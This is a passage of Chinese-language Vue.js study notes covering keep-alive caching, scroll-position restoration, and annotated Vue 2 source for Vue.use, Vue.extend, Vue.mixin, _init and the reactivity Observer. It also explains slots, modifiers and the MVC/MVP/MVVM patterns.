keepAlive: true //需要被缓存
}
},
{
path: '/detail',
name: 'detail',
component: () => import('./views/keep-alive/detail.vue')
}
]
})
- keep-alive 组件如果设置了 include ，就只有和 include 匹配的组件会被缓存，所以动态修改 include 数组来实现按需缓存。
<keep-alive :include="include">
<!-- 需要缓存的视图组件 -->
<router-view v-if="$route.meta.keepAlive">
</router-view>
</keep-alive>
<!-- 不需要缓存的视图组件 -->
<router-view v-if="!$route.meta.keepAlive">
</router-view>
app.vue 里监听路由的变化
export default {
name: "app",
data: () => ({
include: []
}),
watch: {
$route(to, from) {
// 返回首页直接重置 include
if (to.name === 'index') {
this.include = []
return;
}
//如果 要 to(进入) 的页面是需要 keepAlive 缓存的，把 name push 进 include数组
if (to.meta.keepAlive) {
!this.include.includes(to.name) && this.include.push(to.name);
}
}
}
};
记录上次列表滚动的高度位置
-
产品列表中，滚动到一定位置的时候，点击查看产品信息，后退之后，需要回到原先的滚动位置，这是常见的需求。所有页面均在 router-view 中，暂时使用了keep-alive 来缓存所有页面，所以进入不同分类的产品列表，和不同的产品详情页面，需要更新数据。
-
在路由元信息中设置一个变量：scrollToPre，即标记是否要回到上一次滚动位置，而我们的产品页面 productList 是要恢复上次滚动高度的，不回到顶部，所以设置为 true。当离开路由的时候，还是判断这个变量是否为 true，是则记录滚动的高度到 vuex 中 （所以我们这个变量有 2 个作用，你要维护 2 个也可以）然后每当进入路由页面的时候，如果本路由的 scrollToPre 为 true，则从 vuex 中读取上次记录的高度，并恢复。
router 设置
{
routes: [{
path: '/',
name: 'home',
component: Home,
meta: { title: "凤凰旅游"}
},
{
path: '/product',
name: 'product',
component: () => import('./views/Product.vue'),
meta: { title: "旅游"}
},
{
path: '/productList/:id',
name: 'productList',
component: () => import('./views/productList.vue'),
meta: { title: "列表", scrollToPre: true}
},
{
path: '/productShow/:id',
name: 'productShow',
component: () => import('./views/productShow.vue'),
meta: { title: "旅游产品显示"}
}
]
}
store 中定义一个变量存储滚动高度
import Vue from 'vue'
import Vuex from 'vuex'
Vue.use(Vuex)
export default new Vuex.Store({
state: {
scrollTop :0
},
mutations: {
recordScrollTop(state,n){
state.scrollTop = n
}
}
})
导航守卫
router.beforeEach((to, from, next) => {
document.title = to.meta.title
// 要离开页面如果设置为要记住上滚动高度到，以便下次进来恢复高度
if (from.meta.scrollToPre) {
store.commit('recordScrollTop', document.documentElement.scrollTop)
}
next()
})
router.afterEach((to, from) => {
// 如果进入后的页面是要滚动到顶部，则设置scrollTop = 0
//否则从vuex中读取上次离开本页面记住的高度，恢复它
if (to.meta.scrollToPre) {
setTimeout(() => {
document.documentElement.scrollTop = store.state.scrollTop
}, 50)
} else {
setTimeout(() => {
document.documentElement.scrollTop = 0
}, 10)
}
});
缓存了页面之后，当参数不同的时候，更新数据
当进入不同分类的产品列表页面，或不同 id 的产品页面，由于缓存了上次的结果，当然要我们来处理更新。首先上面有说到，使用了 keep-alive，路由页面便可以使用 activated 生命周期钩子，因为使用了 keep-alive 其它普通的生命周期只执行了一次，而 activated 每次显示页面都会激活（类似小程序的 onShow），必须使用这个来更新思路：在页面 data 中维护一个 id,默认为 0 ，每次进这个页面时调用 activated 生命周期钩子，判断这个 id 是否与路由 url 中的参数一致如果不一致，则根据这个 id 更新相关数据，并且把 data 中的 id，更新为新的 id，别忘了还要清空上次分类的产品数据当然别忘了，你应该初始读取一次数据，比如在 created 里面， 而 activated 第一次创建页面时不会激活，缓存之后，第二次进入才会开始激活。
activated() {
//由于缓存了本页面，每次激活页面都要判断是否重置相关参数，并重新加载数据
if (this.id !== this.$route.params.id) {
this.id = this.$route.params.id //更新分类id
this.curpage = 1 //初始化页面为1
this.product = [] //清空上次不同分类的产品数据
this.getProduct('/api/productList.php', this.id, this.curpage).then((res)=>{
this.ptotal = res.total
res.products.forEach((item)=>{
this.product.push (item)
})
this.loading = false
})
}
}
use extend mixin
Vue.use
Vue.use 用于安装插件。可以传对象或者函数，如果是对象，必须有名为 install 的方法。如果是函数，函数本身就会被作为 install 方法。插件安装后会被缓存，多次安装同一个插件只会被安装一次。
下面是源码 src\core\global-api\use.js
/* @flow */
import { toArray } from '../util/index'
export function initUse (Vue: GlobalAPI) {
/**
* 定义 Vue.use，负责为 Vue 安装插件，做了以下两件事：
* 1、判断插件是否已经被安装，如果安装则直接结束
* 2、安装插件，执行插件的 install 方法
* @param {*} plugin install 方法 或者 包含 install 方法的对象
* @returns Vue 实例
*/
// 本质就是在执行插件的 install 方法
Vue.use = function (plugin: Function | Object) {
// 不会重复注册同一个组件
// 已经安装过的插件列表
const installedPlugins = (this._installedPlugins || (this._installedPlugins = []))
// 判断 plugin 是否已经安装，保证不重复安装
if (installedPlugins.indexOf(plugin) > -1) {
return this
}
// additional parameters
// 将 Vue 实例放到第一个参数位置，然后将这些参数传递给 install 方法
const args = toArray(arguments, 1)
args.unshift(this)
if (typeof plugin.install === 'function') {
// plugin 是一个对象，则执行其 install 方法安装插件
plugin.install.apply(plugin, args)
} else if (typeof plugin === 'function') {
// 执行直接 plugin 方法安装插件
plugin.apply(null, args)
}
// 在 已安装插件列表中 添加新安装的插件
installedPlugins.push(plugin)
return this
}
}
Vue.extend
Vue.extend 使用基础 Vue 构造器，创建一个“子类”。参数是一个包含组件选项的对象。
其实注册全局组件 Vue.component() 或者注册局部组件（在组件选项中设置 components 属性，值是局部组件组成的对象）其内部都调用了 Vue.extend。
下面是源码 src\core\global-api\extend.js
/* @flow */
import { ASSET_TYPES } from 'shared/constants'
import { defineComputed, proxy } from '../instance/state'
import { extend, mergeOptions, validateComponentName } from '../util/index'
export function initExtend (Vue: GlobalAPI) {
/**
* Each instance constructor, including Vue, has a unique
* cid. This enables us to create wrapped "child
* constructors" for prototypal inheritance and cache them.
*/
Vue.cid = 0
let cid = 1
/**
* Class inheritance
*/
/**
* 基于 Vue 去扩展子类，该子类同样支持进一步的扩展
* 扩展时可以传递一些默认配置，就像 Vue 也会有一些默认配置
* 默认配置如果和基类有冲突则会进行选项合并（mergeOptions)
*/
Vue.extend = function (extendOptions: Object): Function {
extendOptions = extendOptions || {}
const Super = this // Vue 构造函数
const SuperId = Super.cid
/**
* 利用缓存，如果存在则直接返回缓存中的构造函数
* 什么情况下可以利用到这个缓存？
* 如果你在多次调用 Vue.extend 时使用了同一个配置项（extendOptions），这时就会启用该缓存
*/
const cachedCtors = extendOptions._Ctor || (extendOptions._Ctor = {})
if (cachedCtors[SuperId]) {
return cachedCtors[SuperId]
}
// 验证组件名称
const name = extendOptions.name || Super.options.name
if (process.env.NODE_ENV !== 'production' && name) {
validateComponentName(name)
}
// 定义 Sub 构造函数，和 Vue 构造函数一样
const Sub = function VueComponent (options) {
// 初始化
this._init(options)
}
// 通过原型继承的方式继承 Vue
Sub.prototype = Object.create(Super.prototype)
// 设置构造函数
Sub.prototype.constructor = Sub
Sub.cid = cid++
// 选项合并，合并 Vue 的配置项到 自己的配置项上来
// 可以通过 Vue.extend 定义一个子类，预设一些配置项
Sub.options = mergeOptions(
Super.options,
extendOptions
)
// 记录自己的基类
Sub['super'] = Super
// For props and computed properties, we define the proxy getters on
// the Vue instances at extension time, on the extended prototype. This
// avoids Object.defineProperty calls for each instance created.
// 初始化 props，将 props 配置代理到 Sub.prototype._props 对象上
// 在组件内通过 this._props 方式可以访问
if (Sub.options.props) {
initProps(Sub)
}
// 初始化 computed，将 computed 配置代理到 Sub.prototype 对象上
// 在组件内可以通过 this.computedKey 的方式访问
if (Sub.options.computed) {
initComputed(Sub)
}
// allow further extension/mixin/plugin usage
// 定义 extend、mixin、use 这三个静态方法，允许在 Sub 基础上再进一步构造子类
Sub.extend = Super.extend
Sub.mixin = Super.mixin
Sub.use = Super.use
// create asset registers, so extended classes
// can have their private assets too.
// 定义 component、filter、directive 三个静态方法
ASSET_TYPES.forEach(function (type) {
Sub[type] = Super[type]
})
// enable recursive self-lookup
// 递归组件的原理，如果组件设置了 name 属性，则将自己注册到自己的 components 选项中
/**
* {
* name: 'Comp',
* components: { 'Comp': Comp }
* }
*/
if (name) {
Sub.options.components[name] = Sub
}
// keep a reference to the super options at extension time.
// later at instantiation we can check if Super's options have
// been updated.
// 在扩展时保留对基类选项的引用。
// 稍后在实例化时，我们可以检查 Super 的选项是否具有更新
Sub.superOptions = Super.options
Sub.extendOptions = extendOptions
Sub.sealedOptions = extend({}, Sub.options)
// cache constructor
cachedCtors[SuperId] = Sub // 将 Sub 构造函数缓存
return Sub
}
}
function initProps (Comp) {
const props = Comp.options.props
for (const key in props) {
proxy(Comp.prototype, `_props`, key)
}
}
function initComputed (Comp) {
const computed = Comp.options.computed
for (const key in computed) {
defineComputed(Comp.prototype, key, computed[key])
}
}
-
Vue.component 其实就是调用 Vue.extend 生成组件的构造函数，这个构造函数继承自 Vue，是 Vue 的子类。得到子类后，将子类放入 Vue.options.components 全局 options 中，这样项目中所有组件在初始化的时候，都会调用 mergeOptions 将 Vue.options 这个全局 options 合并入自己的 option 中，这就是为什么全局组件可以在任何组件中使用的原因。
-
对于局部注册的组件，当走 $mount 流程的时候，生成 vnode 时会调用 render 函数，然后执行 _createElement， _createElement 中判断 tag 如果是保留标签，就创建对应的 vnode，如果不是就可能是组件，会去从 vm.$options.components 中拿到对应的构造函数，如果这个组件是全局组件，那么这时候获取到的就是子类构造函数，如果是局部组件，这时候获取到的就是组件对应的 option，然后调用 createComponent。createComponent 中用 Vue.extend 创建了局部注册组件的子类构造函数（全局组件在 Vue.component 调用的时候就已经生成子类构造函数了，这里处理的是局部组件）。然后安装了组件钩子函数，这些钩子函数用于组件的初始化，更新和销毁
Vue.mixin mixins
- Vue.mixin 全局注册一个混入，影响注册之后所有创建的每个 Vue 实例。
- mixins 选项接收一个混入对象的数组。这些混入对象可以像正常的实例对象一样包含实例选项，这些选项将会被合并到最终的选项中。mixins 钩子按照传入顺序依次调用，并在调用组件自身的钩子之前被调用。
src\core\global-api\mixin.js
/* @flow */
import { mergeOptions } from '../util/index'
export function initMixin (Vue: GlobalAPI) {
/**
* 定义 Vue.mixin，负责全局混入选项，影响之后所有创建的 Vue 实例，这些实例会合并全局混入的选项
* @param {*} mixin Vue 配置对象
* @returns 返回 Vue 实例
*/
Vue.mixin = function (mixin: Object) {
// 在 Vue 的默认配置项上合并 mixin 对象
this.options = mergeOptions(this.options, mixin)
return this
}
}
init 初始化阶段会调用 mergeOptions 将组件自己的选项和 Vue.options 基础选项合并
src\core\util\options.js
// mergeOptions 中有这样一句
export function mergeOptions (
parent: Object,
child: Object,
vm?: Component
): Object {
// 处理原始 child 对象上的 extends 和 mixins，分别执行 mergeOptions，将这些继承而来的选项合并到 parent
// mergeOptions 处理过的对象会含有 _base 属性
if (!child._base) {
// { extend } 和 mixin 很类似，让你基于一个组件去扩展另外一个，不需要使用 Vue.extend
// 任何写在 mixins 中的选项，都会使用 mergeOptions 中相应的合并策略进行处理，这就是 mixins 的实现方式
// 对于 extends 选项，与 mixins 相同，甚至由于 extends 选项只能是一个对象，而不能是数组，反而要比 mixins 的实现更为简单，连遍历都不需要。
if (child.extends) {
parent = mergeOptions(parent, child.extends, vm)
}
if (child.mixins) {
for (let i = 0, l = child.mixins.length; i < l; i++) {
parent = mergeOptions(parent, child.mixins[i], vm)
}
}
}
}
这就是 mixins 钩子在调用组件自身的钩子之前被调用的原因，因为 mergeOptions 先处理了 mixins，然后才去处理选项中其他值。
slot 应用
基本用法
- 普通使用
<button type="submit">
<slot>Submit</slot> <!--插槽备用内容-->
</button>
<submit-button>
Save
</submit-button>
- 具名插槽
<div class="container">
<header>
<slot name="header"></slot>
</header>
<main>
<slot></slot>
</main>
<footer>
<slot name="footer"></slot>
</footer>
</div>
<base-layout>
<template v-slot:header>
<h1>Here might be a page title</h1>
</template>
<p>A paragraph for the main content.</p>
<p>And another one.</p>
<template v-slot:footer>
<p>Here's some contact info</p>
</template>
</base-layout>
<!--或者-->
<base-layout>
<template v-slot:header>
<h1>Here might be a page title</h1>
</template>
<template v-slot:default>
<p>A paragraph for the main content.</p>
<p>And another one.</p>
</template>
<template v-slot:footer>
<p>Here's some contact info</p>
</template>
</base-layout>
- 作用域插槽
<span>
<slot :user="user">
{{ user.lastName }}
</slot>
<slot :user="user" name="other">
{{ user.lastName }}
</slot>
</span>
<current-user>
<template v-slot:default="slotProps">
{{ slotProps.user.firstName }}
</template>
<template v-slot:other="otherSlotProps">
...
</template>
</current-user>
修饰符
表单修饰符
这三个都用在 input 输入框 v-model 上
- .lazy 在 change 时而非 input 时更新
- .number 自动将用户的输入值转为数值类型
- .trim 去除首尾空白字符
事件修饰符
- .stop 阻止事件冒泡（相当于 event.stopPropagation()）
- .prevent 阻止事件的默认行为 （相当于 event.preventDefault()）
- .self 点击元素本身时才触发回调
- .once 只触发一次事件回调
- .capture 向下捕获方式触发
- .passive 滚动事件延迟
- .native 转为原生事件
鼠标按键修饰符
这三个用在 click 事件上
- .left 左键点击
- .right 右键点击
- .middle 中键点击
键值修饰符
- keyCode attribute 例如：
<input v-on:keyup.13="submit">
按键码的别名：
- .enter
- .tab
- .delete (捕获“删除”和“退格”键)
- .esc
- .space
- .up
- .down
- .left
- .right
系统修饰键
- .ctrl
- .alt
- .shift
- .meta （在 Mac 系统键盘上，meta 对应 command 键 (⌘)。在 Windows 系统键盘 meta 对应 Windows 徽标键）
- .exact 精确控制系统修饰键
<!-- 即使 Alt 或 Shift 被一同按下时也会触发 -->
<button v-on:click.ctrl="onClick">A</button>
<!-- 有且只有 Ctrl 被按下的时候才触发 -->
<button v-on:click.ctrl.exact="onCtrlClick">A</button>
<!-- 没有任何系统修饰符被按下的时候才触发 -->
<button v-on:click.exact="onClick">A</button>
v-bind 修饰符
- .prop - 作为一个 DOM property 绑定而不是作为 attribute 绑定。
- .camel - (2.1.0+) 将 kebab-case attribute 名转换为 camelCase。
- .sync (2.3.0+) 语法糖，会扩展成一个更新父组件绑定值的 v-on 侦听器。
在有些情况下，我们可能需要对一个 prop 进行“双向绑定”。
// 子组件
this.$emit('update:title', newTitle)
// 父组件
<text-document
v-bind:title="doc.title"
v-on:update:title="doc.title = $event"
></text-document>
如上例子，子组件发射一个事件，父组件监听这个事件然后更新传给子组件的 props 数据。这种模式的一个缩写，即 .sync 修饰符
<text-document v-bind:title.sync="doc.title"></text-document>
mvvm
Web1.0 时代
在 web1.0 时代，并没有前端的概念。开发一个 web 应用多数采用 ASP.NET/Java/PHP 编写，项目通常由多个 aspx/jsp/php 文件构成，每个文件中同时包含了 HTML、CSS、JavaScript、C#/Java/PHP 代码，系统整体架构可能是这样子的：

这种架构的好处是简单快捷，但是，缺点也非常明显：JSP 代码难以维护。为了让开发更加便捷，代码更易维护，前后端职责更清晰。便衍生出 MVC 开发模式和框架，前端展示以模板的形式出现。典型的框架就是 Spring、Structs、Hibernate。整体框架如图所示：

使用这种分层架构，职责清晰，代码易维护。但这里的 MVC 仅限于后端，前后端形成了一定的分离，前端只完成了后端开发中的 view 层。但是，同样的这种模式存在着一些问题：
- 前端页面开发效率不高。
- 前后端职责不清
web2.0 时代
自从 Gmail 的出现，ajax 技术开始风靡全球。有了 ajax 之后，前后端的职责就更加清晰了。因为前端可以通过 Ajax 与后端进行数据交互，因此，整体的架构图也变化成了下面这幅图：

通过 ajax 与后台服务器进行数据交换，前端开发人员，只需要开发页面这部分内容，数据可由后台进行提供。而且 ajax 可以使得页面实现部分刷新，减少了服务端负载和流量消耗，用户体验也更佳。这时， 才开始有专职的前端工程师。同时前端的类库也慢慢的开始发展，最著名的就是 jQuery 了。当然，此架构也存在问题：缺乏可行的开发模式承载更复杂的业务需求，页面内容都杂糅在一起，一旦应用规模增大，就会导致难以维护了。因此，前端的 MVC 也随之而来。
mvc

- View 传送指令到 Controller
- Controller 完成业务逻辑后，要求 Model 改变状态
- Model 将新的数据发送到 View，用户得到反馈
这样的模型，在理论上是可行的。但往往在实际开发中，并不会这样操作。因为开发过程并不灵活。例如，一个小小的事件操作，都必须经过这样的一个流程，那么开发就不再便捷了。在实际场景中，我们往往会看到另一种模式，如图：

但是，这种灵活可能导致严重的问题：
- 数据流混乱。
- View 比较庞大，而 Controller 比较单薄：由于很多的开发者都会在 view 中写一些逻辑代码，逐渐就导致 view 中的内容越来越庞大，而 controller 变得越来越单薄。
mvp

- 各部分之间的通信，都是双向的。
- View 与 Model 不发生联系，都通过 Presenter 传递。
- View 非常薄，不部署任何业务逻辑，称为"被动视图"（Passive View），即没有任何主动性，而 Presenter非常厚，所有逻辑都部署在那里。
mvvm

- MVVM 模式将 Presenter 改名为 ViewModel，基本上与 MVP 模式完全一致。
- 唯一的区别是，它采用双向绑定（data-binding）：View的变动，自动反映在 ViewModel，反之亦然。
- ViewModel 通过实现一套数据响应式机制自动响应 Model 中数据变化；同时 ViewModel 会实现一套更新策略自动将数据变化转换为视图更新；通过事件监听响应 View 中用户交互修改 Model 中数据。这样在 ViewModel 中就减少了大量 DOM 操作代码。MVVM 在保持 View 和 Model 松耦合的同时，还减少了维护它们关系的代码，使用户专注于业务逻辑，兼顾开发效率和可维护性。
总结
- 这三者都是框架模式，它们设计的目标都是为了解决 Model 和 View 的耦合问题。
- MVC 模式出现较早主要应用在后端，如 Spring MVC、ASP.NET MVC 等，在前端领域的早期也有应用，如 Backbone.js。它的优点是分层清晰，缺点是数据流混乱，灵活性带来的维护性问题。
- MVP 模式在是 MVC 的进化形式，Presenter 作为中间层负责 MV 通信，解决了两者耦合问题，但 P 层过于臃肿会导致维护问题。
- MVVM 模式在前端领域有广泛应用，它不仅解决 MV 耦合问题，还同时解决了维护两者映射关系的大量繁杂代码和 DOM 操作代码，在提高开发效率、可读性同时还保持了优越的性能表现。
初始化
问：new Vue() 的时候都发生了什么？
- 需要去看源码中的
src\core\instance\init.js文件
点击查看代码
// 负责 Vue 的初始化过程
Vue.prototype._init = function (options?: Object) {
// vue 实例
const vm: Component = this
// a uid
// 每个 vue 实例都有一个 _uid，并且是依次递增的
vm._uid = uid++
let startTag, endTag
/* istanbul ignore if */
if (process.env.NODE_ENV !== 'production' && config.performance && mark) {
startTag = `vue-perf-start:${vm._uid}`
endTag = `vue-perf-end:${vm._uid}`
mark(startTag)
}
// a flag to avoid this being observed
vm._isVue = true
// merge options
// 处理组件配置项
if (options && options._isComponent) { // 组件的情况下 合并options
// optimize internal component instantiation
// since dynamic options merging is pretty slow, and none of the
// internal component options needs special treatment.
/**
* 每个子组件初始化时走这里，这里只做了一些性能优化
* 将组件配置对象上的一些深层次属性放到 vm.$options 选项中，以提高代码的执行效率
*/
// 性能优化， 减少原型链的动态查找，提高执行效率
initInternalComponent(vm, options)
} else {
/**
* 初始化根组件时走这里，合并 Vue 的全局配置到根组件的局部配置，比如 Vue.component 注册的全局组件会合并到 根实例的 components 选项中
*
* 组件选项合并,发生在三个地方：
* 1. Vue.component(CompName, Comp) 做了选项合并，合并的 Vue 内置的全局组件和用户自己注册的全局组件，最终都会放到全局的 components 选项
* 2. {components: xxx} 局部注册，执行编译生成的 render 函数时做了选项合并，会合并全局配置项到组件局部配置项上
* 3. 这里的根组件的情况
*
*/
// 当 new 一个 vue 实例的时候，如果用户传入了自定义的 option，则最终会使用默认的合并策略，被合并到 $options 上
/**
*new Vue({
customOption: 'foo',
created: function () {
console.log(this.$options.customOption) // => 'foo'
}
})
*/
// 另外，我们可以在 Vue.config.optionMergeStrategies 中设置针对自定义 option 的自定义合并策略
vm.$options = mergeOptions(
resolveConstructorOptions(vm.constructor),
options || {}, // 用户 new Vue 的时候传入的 options
vm
)
// 第一次 new Vue 的时候会调用 mergeOptions 合并配置
}
/* istanbul ignore else */
if (process.env.NODE_ENV !== 'production') {
// 设置代理，将 vm 实例上的属性代理到 vm._renderProxy
// initProxy 的目的，就是设置渲染函数的作用域代理，其目的是为我们提供更好的提示信息
initProxy(vm)
} else {
vm._renderProxy = vm
}
// expose real self
vm._self = vm
// 初始化组件实例关系属性，比如 $parent、$children、$root、$refs 等
initLifecycle(vm)
/**
* 初始化自定义事件，这里需要注意一点，所以我们在 <comp @click="handleClick" /> 上注册的事件，监听者不是父组件，
* 而是子组件本身，也就是说事件的派发和监听者都是子组件本身，和父组件无关。最后触发和监听会变成 this.$emit() 和 this.$on() 的形式
*/
initEvents(vm)
// 1. 解析组件的插槽信息，得到 vm.$slot，2. 处理渲染函数，定义 this._c 就是 createElement 方法，即 h 函数 3. vm.$attrs vm.listeners
initRender(vm)
callHook(vm, 'beforeCreate') // 调用 beforeCreate 生命周期函数
// 初始化组件的 inject 配置项，得到 result[key] = val 形式的配置对象，然后对结果数据进行响应式处理，并代理每个 key 到 vm 实例
initInjections(vm) // resolve injections before data/props
initState(vm) // 数据响应式的重点，处理 props、methods、data、computed、watch
// 解析组件配置项上的 provide 对象，将其挂载到 vm._provided 属性上
// 总结 provide inject 实现原理
// inject 并没有将属性真正注入子组件，而是子组件向上一层层去找到对应的key
initProvide(vm) // resolve provide after data/props
callHook(vm, 'created') // 调用 created 生命周期函数
/* istanbul ignore if */
if (process.env.NODE_ENV !== 'production' && config.performance && mark) {
vm._name = formatComponentName(vm, false)
mark(endTag)
measure(`vue ${vm._name} init`, startTag, endTag)
}
if (vm.$options.el) { // 如果发现配置项上有 el 选项，则自动调用 $mount 方法，也就是说有了 el 选项，就不需要再手动调用 $mount，反之，没有 el 则必须手动调用 $mount
vm.$mount(vm.$options.el)
}
}
- 初始化组件实例关系属性，比如 $parent、$children、$root、$refs 等
- 初始化自定义事件
- 解析组件的插槽信息，得到 vm.$slot
- 处理渲染函数，定义 this._c 就是 createElement 方法，即 h 函数
- vm.$attrs vm.listeners
- 调用 beforeCreate 生命周期函数
- 初始化组件的 inject 配置项
- 处理数据响应式， props、methods、data、computed、watch
- 解析组件配置项上的 provide 对象
- 用 created 生命周期函数
响应式
什么是数据响应式？
所谓数据响应式就是能够使数据变化可以被监测并对这种变化作出响应的机制。
为什么 vue 需要数据响应式？
vue 是 mvvm 框架。mvvm 框架需要解决的一个问题是连接数据层和视图层，通过数据驱动应用，一旦数据变化，视图就需要更新，要做到这点就需要数据响应式。
它给我们带来了什么好处？
vue 通过数据响应式再加上虚拟 DOM 和 patch 算法，让开发者可以只操作数据，完全不用接触繁琐的 DOM 操作，大大提升开发效率，降低开发难度。
vue 中数据响应式怎么实现的？
vue 中数据响应式根据不同数据类型做不同处理。如果是对象，采用 Object.defineProperty() 的方式定义数据拦截，当数据被访问或者发生改变的时候，我们感知并且作出响应；如果是数组，通过覆盖 7 个会改变数组自身的原型方法，扩展这 7 个方法，使这些方法可以额外地做更新通知，从而做出响应。
但是实际中也有一些缺点：初始化时需要遍历递归对象和数组造成性能损失；新增或者删除属性需要使用 Vue.set/delete 这种特殊的 api 才能生效；对于 ES6 中新数据结构 Map Set 不支持。
vue3 中响应式的变化
为了解决上面提到的问题，vue3 使用 ES6 的 Proxy 机制代理要响应式的数据，有很多好处，它会劫持整个对象，这样不论是新增还是删除属性的操作都能监测到；当深层的属性在真正访问到的时候才去变成响应式的，使得初始化性能和内存消耗都得到大幅改善；响应式的实现代码抽取为独立的 reactivity 包，可以更灵活地使用。
详解 vue 响应式原理
Observer
Observer 类将 data 中的数据的属性变成 getter/setter。
- 对于数组，覆盖数组的七个原生方法（push pop shift unshift splice sort reverse），做了两件事：对新加入数组的元素做响应式处理，并且通知依赖更新。
- 对于对象，使用 Object.defineProperty() 将对象上所有属性变成 getter/setter。
- 不论是数组还是对象，都递归向内层遍历所有的对象和数组，将它们变成响应式的。
以下是源码 src\core\observer\index.js
点击查看代码
export class Observer {
value: any;
dep: Dep;
vmCount: number; // number of vms that have this object as root $data
constructor (value: any) {
this.value = value
// 这个 dep 负责对象变更通知，新增或删除属性，也就是 $set 和 $delete 之后手动调用 ob.dep.notify()
this.dep = new Dep()
this.vmCount = 0
// 在 value 对象上设置 __ob__ 属性，enumerable 为 false，保证这个私有属性不会被 this.walk 遍历到
def(value, '__ob__', this)
if (Array.isArray(value)) {
/**
* value 为数组
* hasProto = '__proto__' in {}
* 用于判断对象是否存在 __proto__ 属性，通过 obj.__proto__ 可以访问对象的原型链
* 但由于 __proto__ 不是标准属性，所以有些浏览器不支持，比如 IE6-10，Opera10.1
* 为什么要判断，是因为一会儿要通过 __proto__ 操作数据的原型链
* 覆盖数组默认的七个原型方法，以实现数组响应式
*/
if (hasProto) {
protoAugment(value, arrayMethods)
} else {
copyAugment(value, arrayMethods, arrayKeys)
}
this.observeArray(value)
} else {
// value 为对象，调用 this.walk 为对象的每个属性（包括嵌套对象）设置响应式
this.walk(value)
}
}
/**
* Walk through all properties and convert them into
* getter/setters. This method should only be called when
* value type is Object.
*/
/**
* 遍历对象上的每个可枚举的 key，为每个 key 设置响应式
* 仅当值为对象时才会走这里
*/
walk (obj: Object) {
const keys = Object.keys(obj)
for (let i = 0; i < keys.length; i++) {
defineReactive(obj, keys[i])
}
}
/**
* Observe a list of Array items.
*/
/**
* 遍历数组，为数组的每一项设置观察，处理数组元素为对象的情况
*/
observeArray (items: Array<any>) {
for (let i = 0, l = items.length; i < l; i++) {
observe(items[i])
}
}
}
以下是 defineReactive 源码 src\core\observer\index.js
点击查看代码
/**
* 拦截 obj[key] 的读取和设置操作：
* 1、在第一次读取时收集依赖，比如执行 render 函数生成虚拟 DOM 时会有读取操作
* 2、在更新时设置新值并通知依赖更新
*/
// shallow 参数，是否深度监测
export function defineReactive (
obj: Object,
key: string,
val: any,
customSetter?: ?Function,
shallow?: boolean
) {
// 实例化 dep，一个 key 一个 dep
const dep = new Dep()
// 获取 obj[key] 的属性描述符，发现它是不可配置对象的话直接 return
const property = Object.getOwnPropertyDescriptor(obj, key)
if (property && property.configurable === false) {
return
}
// cater for pre-defined getter/setters
// 记录原始 getter 和 setter，获取 val 值
//一个对象的属性很可能已经是一个访问器属性了，所以该属性很可能已经存在 get 或 set 方法。由于接下来会使用 Object.defineProperty 函数重新定义属性的 setter/getter，这会导致属性原有的 set 和 get 方法被覆盖，所以要将属性原有的 setter/getter 缓存，并在重新定义的 set 和 get 方法中调用缓存的函数，从而做到不影响属性的原有读写操作。
const getter = property && property.get
const setter = property && property.set
// https://github.com/vuejs/vue/pull/7302
// 为什么要这样判断：(!getter || setter)
// 因为有可能用户定义的 data 中的属性原本就是拥有 getter 的，如下：
/**
* const data = {}
Object.defineProperty(data, 'getterProp', {
enumerable: true,
configurable: true,
get: () => {
return {
a: 1
}
}
})
const ins = new Vue({
data,
watch: {
'getterProp.a': () => {
console.log('这句话不会输出')
}
}
})
属性 getterProp 是一个拥有 get 拦截器函数的访问器属性，而当 Vue 发现该属性拥有原本的 getter 时，是不会深度观测的。
那么为什么当属性拥有自己的 getter 时就不会对其深度观测了呢？有两方面的原因，
第一：由于当属性存在原本的 getter 时在深度观测之前不会取值，所以在深度观测语句执行之前取不到属性值从而无法深度观测。
第二：之所以在深度观测之前不取值是因为属性原本的 getter 由用户定义，用户可能在 getter 中做任何意想不到的事情，这么做是出于避免引发不可预见行为的考虑。
*/
if ((!getter || setter) && arguments.length === 2) {
val = obj[key]
}
// 递归调用，处理 val 即 obj[key] 的值为对象的情况，保证对象中的所有 key 都被观察
let childOb = !shallow && observe(val)
/**
*
const data = {
a: {
b: 1
}
}
observe(data)
经过处理后变成如下数据：
const data = {
a: {
b: 1
__ob__: {a, dep, vmCount}
}
__ob__: {data, dep, vmCount}
}
// 属性 a 通过 setter/getter 通过闭包引用着 dep 和 childOb
// 属性 b 通过 setter/getter 通过闭包引用着 dep 和 childOb
// 这里需要注意 a 通过闭包引用的 childOb 就是 data.a.__ob__
// 而 b 通过闭包引用的 childOb 是 undefined
*/
// 响应式核心
Object.defineProperty(obj, key, {
enumerable: true,
configurable: true,
// get 拦截对 obj[key] 的读取操作，做两件事：1.返回正确的属性值，2.收集依赖
get: function reactiveGetter () {
// 正确地返回属性值
const value = getter ? getter.call(obj) : val
/**
* Dep.target 为 Dep 类的一个静态属性，值为 watcher，在实例化 Watcher 时会被设置
* 实例化 Watcher 时会执行 new Watcher 时传递的回调函数（computed 除外，因为它懒执行）
* 而回调函数中如果有 vm.key 的读取行为，则会触发这里的 读取 拦截，进行依赖收集
* 回调函数执行完以后又会将 Dep.target 设置为 null，避免这里重复收集依赖
*/
if (Dep.target) {
// 依赖收集，在 dep 中添加 watcher，也在 watcher 中添加 dep
dep.depend()
// 对于上面举的例子，对于属性 a 来说，childOb 就是 data.a.__ob__
// 所以 childOb.dep 就是 data.a.__ob__.dep
// 也就是说依赖不仅要收集到 a 自己的 dep 里，也要收集到 a.__ob__.dep 里
// 这样做的原因是因为 a.dep 和 a.__ob__.dep 里的依赖，触发更新的时机是不同的
// 第一个触发的时机就是当 a 属性的值被改变的时候，即触发 a 的 setter 的 dep.notify()
// 而第二个触发的时机是 $set 或 Vue.set 给对象添加新属性时触发
/**
* Vue.set(data.a, 'c', 1)
* 这样设置新的属性 c 后，之所以可以触发更新，是因为其中触发了 data.a.__ob__.dep.notify()，Vue.set 代码简化后如下：
*
* Vue.set = function (obj, key, val) {
defineReactive(obj, key, val)
obj.__ob__.dep.notify()
}
所以 __ob__ 属性以及 __ob__.dep 的主要作用是为了添加、删除属性时有能力触发依赖更新，而这就是 Vue.set 或 Vue.delete 的原理。
*/
if (childOb) {
childOb.dep.depend()
// 如果是 obj[key] 是 数组，则触发数组响应式
if (Array.isArray(value)) {
// 为数组项为对象的项添加依赖
dependArray(value)
}
}
}
return value
},
// set 拦截对 obj[key] 的设置新值的操作，做了两件事：1.设置新值，2.触发依赖更新
set: function reactiveSetter (newVal) {
// 旧的 obj[key]
const value = getter ? getter.call(obj) : val
/* eslint-disable no-self-compare */
// 如果新老值一样，则直接 return，不触发响应式更新过程（判断了新老值都是 NaN 的情况）
